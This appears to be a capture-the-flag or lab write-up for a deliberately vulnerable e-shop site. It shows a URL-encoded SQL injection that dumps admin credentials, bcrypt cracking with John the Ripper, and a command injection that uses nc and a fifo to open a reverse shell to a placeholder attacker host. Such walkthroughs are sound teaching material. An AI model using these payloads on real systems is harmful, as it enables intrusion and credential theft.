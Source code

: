 # Vulnerabilities in EthWebsite Repository

## Description

This repository contains a website powered by a backend connected to a database. The website is vulnerable to various attacks, including SQL injection and command injection. Below is a detailed breakdown of the vulnerabilities and their exploitation.

## Exploitation Steps

1. **Modify /etc/hosts file**

To begin, insert the following line into the `/etc/hosts` file, including the IP address of the machine and the hostname retrieved from a file served by the FTP server:

```
<machine_IP> ethwebsite.com
```

With this modification, we can now access the website.

2. **SQL Injection**

Accessing all the available products of this e-market website is as simple as visiting the `/shop` endpoint, while fetching details for a specific product involves navigating to `/shop/{PRODUCT_NAME}`.

Exploiting the website is made possible through SQL Injection vulnerability present in the `/shop/{PRODUCT_NAME}` path.

Since the backend does a simple MySQL query:

```
SELECT * FROM products WHERE name='{PRODUCT_NAME}';
```

We can exploit it by injecting our own code. For instance, to retrieve admin data, we can use:

```
SELECT * FROM products WHERE name='smth' UNION SELECT *,NULL FROM users WHERE id='1';
```

To make this injection work, we encode it for use in a URL. Thus, the resulting URL becomes:

```
http://ethwebsite.com/shop/smth%27%20UNION%20SELECT%20%2A%2CNULL%20FROM%20users%20WHERE%20id%3D%271%20
```

Upon execution of the SQL injection, the webpage responds by providing the admin's data, which includes their id, email, username, and hashed password, secured using bcrypt encryption.

3. **Find the password from the hash**

To decipher the plaintext password from the hash, we can use tools such as John The Ripper with a wordlist, such as `rockyou.txt`. This combination allows for the brute-force or dictionary-based cracking of the hashed password.

```
john --format=bcrypt --wordlist=/usr/share/wordlists/rockyou.txt password.txt
```

4. **Command Injection using Burp Suite**

With the obtained admin credentials, we can navigate to the inaccessible `/monitor` directory. This directory grants the admin privileged access to view Nginx log files, offering insights and analytics crucial for monitoring and troubleshooting server activities.

Upon clicking on each file, the website triggers a request to the backend, which includes the name of the file the admin intends to view in the request body. The backend then processes this request and executes the following command, and sends what it prints back to the admin’s page:

```
tail -n 10 /var/log/nginx/{LOG_FILE_NAME}
```

By utilizing Burp Suite, we can intercept the request sent to the backend. We can then modify the content of the request body, injecting command line instructions. For instance, we could execute a command to establish a reverse shell, granting unauthorized access to the system.

By modifying the request body from:

```
{"logFile":"access.log"}
```

to

```
{"logFile":"access.log; mkfifo fifo; nc attacker_ip 4444 < fifo | bash > fifo "}
```

The backend executes the following:

```
tail -n 10 /var/log/nginx/access.log; mkfifo fifo; nc attacker_ip 4444 < fifo | bash >
```

Now we have access to the shell.

## Conclusion

This repository highlights critical vulnerabilities in web applications, emphasizing the importance of secure coding practices and thorough testing to mitigate such risks.
